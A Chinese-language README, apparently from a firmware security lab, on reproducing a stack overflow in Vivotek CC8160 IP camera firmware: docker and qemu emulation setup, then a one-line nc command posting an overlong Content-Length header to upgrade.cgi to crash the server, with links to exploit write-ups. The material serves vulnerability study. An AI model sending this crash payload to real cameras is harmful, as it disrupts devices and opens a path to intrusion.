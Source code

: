 # Vivotek IP Cameras CC8160 栈溢出漏洞


## 漏洞环境

### 用户级模拟 - 快速验证

手动构建：

```sh
# 构建 binwalk 并解包固件
$ cd baseImage/binwalk
$ docker build -t binwalk .
$ cd Vivotek/remote_stack_overflow
$ docker run -v $PWD/firmware:/root/firmware binwalk -Mer /root/firmware/CC8160-VVTK-0100d.flash.zip

# 构建漏洞环境
$ docker-compose -f docker-compose-user.yml build

# 后台启动环境
$ docker-compose -f docker-compose-user.yml up
```

直接拉取：

```sh
# 拉取 binwalk 并解包固件
$ docker pull firmianay/binwalk
$ docker run -v $PWD/firmware:/root/firmware firmianay/binwalk -Mer /root/firmware/CC8160-VVTK-0100d.flash.zip

# 拉取漏洞环境并启动
$ docker pull firmianay/vivotek:remote_stack_overflow-user
$ docker run --privileged -p 1234:80 -it vivotek:remote_stack_overflow-user
```

### 系统级模拟 - 动态调试

手动构建，解包过程同上。如果想要动态调试，还需要编译对应的 arm gdbserver 并复制到 system-emu/tools 目录。

```sh
# 先构建漏洞环境 qemu-system:arm 环境
$ cd baseImage/qemu-system/arm
$ docker build -t qemu-system:arm .

# 再构建漏洞环境
$ docker-compose -f docker-compose-system.yml build

# 启动环境
$ docker-compose -f docker-compose-system.yml up
# 等待启动完成，重新开启一个窗口做后续操作
$ docker exec -it vivotek-system /bin/bash
$ ssh root@192.168.2.2
```

直接拉取：

```sh
$ docker pull firmianay/vivotek:remote_stack_overflow-system
$ docker run --privileged -it vivotek:remote_stack_overflow-system
```

## 漏洞复现

```sh
echo -en "POST /cgi-bin/admin/upgrade.cgi\r\nHTTP/1.0\nContent-Length:AAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIXXXX\n\r\n\r\n"  | nc -v 127.0.0.1 1234
```

![img](./crash.png)


## 参考链接

- https://www.exploit-db.com/exploits/44001
- https://xz.aliyun.com/t/5054
- https://www.anquanke.com/post/id/185336
- https://paper.seebug.org/480/

